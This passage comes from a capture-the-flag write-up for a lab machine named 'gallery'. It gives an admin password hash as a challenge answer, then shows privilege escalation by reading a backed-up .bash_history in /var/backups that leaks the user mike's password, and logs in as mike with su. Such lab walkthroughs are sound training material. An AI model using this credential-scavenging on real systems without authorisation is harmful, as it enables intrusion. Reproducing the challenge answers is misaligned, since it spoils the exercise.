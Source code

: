 We have the admin password hash !

**Question : What's the hash password of the admin user ?**  
**Answer : a228b12a08b6527e7978cbe5d914531c**  

## Privilege escalation

Let's escalate our privileges. If we take a look in "/var/backups", we notice a directory named "mike_home_backup" :  
```
drwxr-xr-x  3 root root  4096 Oct 19 21:25 .
drwxr-xr-x 13 root root  4096 May 20  2021 ..
-rw-r--r--  1 root root 34789 Feb 12  2022 apt.extended_states.0
-rw-r--r--  1 root root  3748 Aug 25  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root  3516 May 21  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root  3575 May 20  2021 apt.extended_states.3.gz
drwxr-xr-x  5 root root  4096 May 24  2021 mike_home_backup
```

We also have read permissions on this directory, so let's take a look in it :  
```
www-data@gallery:/var/backups/mike_home_backup$ ls -la
total 36
drwxr-xr-x 5 root root 4096 May 24  2021 .
drwxr-xr-x 3 root root 4096 Oct 19 21:25 ..
-rwxr-xr-x 1 root root  135 May 24  2021 .bash_history
-rwxr-xr-x 1 root root  220 May 24  2021 .bash_logout
-rwxr-xr-x 1 root root 3772 May 24  2021 .bashrc
drwxr-xr-x 3 root root 4096 May 24  2021 .gnupg
-rwxr-xr-x 1 root root  807 May 24  2021 .profile
drwxr-xr-x 2 root root 4096 May 24  2021 documents
drwxr-xr-x 2 root root 4096 May 24  2021 images
```

Let's see what's inside .bash_history :  
```
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```

There is mike's password ! Let's use it to login as user mike :  
```
www-data@gallery:/var/backups/mike_home_backup$ su mike 
Password: 
mike@gallery:/var/backups/mike_home_backup$
```
